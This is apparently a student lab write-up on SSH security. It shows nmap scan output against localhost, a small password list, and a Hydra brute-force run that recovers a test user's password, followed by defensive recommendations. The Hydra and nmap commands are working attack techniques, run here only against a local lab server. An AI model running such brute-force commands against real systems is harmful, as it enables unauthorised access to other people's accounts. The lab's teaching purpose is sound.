

# LAB03 - Testing SSH Security with Nmap and Hydra

## 🔷 Step 1: Scan for open ports with Nmap

```bash
┌──(newtyman㉿Neyc-PC)-[/mnt/c/Users/nejcc/Documents/GitHub/CS-Vaje]
└─$ nmap -sS -sV -O -p- 127.0.0.1
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-17 10:09 +0100
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.18 (Ubuntu Linux; protocol 2.0)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=11/17%OT=2222%CT=1%CU=44721%PV=Y%DS=0%DC=L%G=Y%TM=6AFC
OS:19E2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=21
OS:)SEQ(SP=100%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=22)SEQ(SP=104%GCD=1%ISR=106%
OS:TI=Z%CI=Z%II=I%TS=22)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=22)SEQ(S
OS:P=FB%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=22)OPS(O1=MFFD7ST11NWA%O2=MFFD7ST11
OS:NWA%O3=MFFD7NNT11NWA%O4=MFFD7ST11NWA%O5=MFFD7ST11NWA%O6=MFFD7ST11)WIN(W1
OS:=FFCB%W2=FFCB%W3=FFCB%W4=FFCB%W5=FFCB%W6=FFCB)ECN(R=Y%DF=Y%T=40%W=FFD7%O
OS:=MFFD7NNSNWA%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
```

#### which ports are open

`2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.18 (Ubuntu Linux; protocol 2.0)`

#### which services are running

`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

#### which operating system version was detected

`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

### 🔷 Step 2: Verify SSH connection

```bash
┌──(newtyman㉿Neyc-PC)-[/mnt/c/Users/nejcc/Documents/GitHub/CS-Vaje]
└─$ ssh testuser@127.0.0.1 -p 2222
The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is: SHA256:MRZV1SWqaxLXmKVQo/dsUtENA4OwC0JCgIEbUfB+C+M
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:2222' (ED25519) to the list of known hosts.
testuser@127.0.0.1's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.18.33.1-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

testuser@754e343201e8:~$ 
```

## 🔷 Step 3: Create a password list

```bash
┌──(newtyman㉿Neyc-PC)-[~/lab03]
└─$ echo -e "password
123456
test123
admin" > passwords.txt

┌──(newtyman㉿Neyc-PC)-[~/lab03]
└─$ cat passwords.txt 
password
123456
test123
admin
```

## 🔷 Step 4: Brute-force attack with Hydra

```bash
┌──(newtyman㉿Neyc-PC)-[~/lab03]
└─$ hydra -l testuser -P passwords.txt -s 2222 127.0.0.1 ssh
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-17 10:14:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: testuser   password: test123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-17 10:14:47
```

## 3️⃣ Analysis and report

### Output of nmap results (which services/ports are open)
Output posted in the terminal snippets above.

### Output of hydra results (whether the password was found)
Output posted in the terminal snippets above.

### Screenshots of both results
Terminal snippets posted instead of screenshots

### Short comment: why using weak passwords is dangerous and why closing unused ports

Using weak passwords is dangerous, because they can easily be bruteforced. There are many wordlists/dictionaries out there with millions of weak and common passwords. These attacks are also pretty fast, meaning that a weak password can usually be cracked within hours.

Closing unused ports is also very important, to avoid situations where attackers can gain access to our machine, because we don't know that the port is active and running default credentials. Additionally if the software is outdated, there could be an exploit that gives attacker access to our machine, meaning we have bigger overhead of maintaining all the ports and software, if we leave it open.

## 4️⃣ Reflection and analysis

### How would you protect the SSH server from brute-force attacks?

There are multiple ways to prevent brute-force attack on the SSH server:
- Use ssh key authnetication instead of passwords
- Timeouts and automatic banning of IPs that perform too many failed attempts
- If we are using a password, choose a very strong one, so that it can't be brute-forced and doesn't appear in any wordlist/dictionary
- Close the SSH port and require users to connect via VPN in order to connect to SSH (and other services)

### What additional measures (e.g. limits on the number of logins, use of public-private keys, firewall) would you recommend?

All the methods of protection listed in the answer above.

### How does the result change if we use a very strong password?

With very strong passwords, the wordlist/dictionary attacks will usually fail, since they only contain the most common passwords or previously leaked/breached passwords.

As for the brute-force attach, the time needed to crack a password depends on its complexity. Below is the table explaining time needed based on different password parameters.

